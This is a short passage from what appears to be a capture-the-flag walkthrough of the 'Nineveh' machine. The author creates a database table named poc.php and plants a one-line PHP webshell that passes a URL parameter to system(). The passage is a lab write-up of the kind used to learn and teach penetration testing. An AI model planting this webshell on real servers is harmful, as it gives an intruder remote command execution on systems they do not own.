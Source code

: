 I created a new table into the poc.php database.

![](/assets/images/ninevehv03/screenshot-11.png)

I filled the input field as shown, the webshell is:

```php
<?php system($_GET["cmd"]); ?>
```

![](/assets/images/ninevehv03/screenshot-12.png)

Finally the table was created.

![](/assets/images/ninevehv03/screenshot-13.png)
